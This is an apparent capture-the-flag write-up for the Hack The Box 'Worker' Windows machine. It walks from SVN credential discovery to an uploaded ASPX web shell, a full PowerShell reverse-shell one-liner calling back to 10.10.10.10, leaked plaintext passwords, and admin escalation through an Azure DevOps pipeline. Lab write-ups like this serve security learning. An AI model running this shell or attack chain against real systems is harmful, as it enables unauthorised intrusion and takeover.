



Worker is a Windows machine. The ip of the box is 10.10.10.203.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/worker 10.10.10.203`


and discovers 2 services:
- *webserver*
- *SVN server*

On the web page there a home page


and i start enumeration with `gobuster`
>gobuster dir -u 10.10.10.203 -w /usr/share/wordlists/dirb/common.txt 

I did not find anything

So i checked on the SVN (a useful [cheatsheet](https://www.perforce.com/blog/vcs/svn-commands-cheat-sheet))


There are a `txt` file


and a directory

So i added `dimension.worker.htb` and `devops.worker.htb` in `hosts` file 


and i continued to enum the `SVN`

List old commits


and checkout on r2 commit


and found a deploy script with cred


>user:**nathen** password:**wendel98**

At this point i navigate on `devops.worker.htb`


and i log in with the credentials found before and go on `Azure DevOps` home page


# User

From Azure webpage is possible upload any file so i decided to upload a `aspx` shell.

So i created a new branch for the repo `spectral` (cannot upload a file on master)


Added a *aspx* shell


and i issued a pull request


I added `spectral.worker.htb` to hosts file and go on `spectral.worker.htb/t1.aspx`



So i opened a listener on local machine and executed the following command on remote shell

```powershell
powershell -np -c "$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


In `W:\svnrepos\www\conf` there is a passwd files with several credentials



i check for the user `robisl` and take the password

>user:**robisl** password:**wolves11**

and i log in with `evil-winrm`


and i grab the user flag.




# Root

Navigating back to `devops.worker.htb` with the new credentials, i get a different project on home page.


Azure DevOps contains pipelines for executing code,so i create a new pipeline and add the user robisl to the administrator group with

`net localgroup administrators robisl /add`


So i login again with evil-winrm


this time the user `robisl` belongs to `Administrators` group so i can take root flag


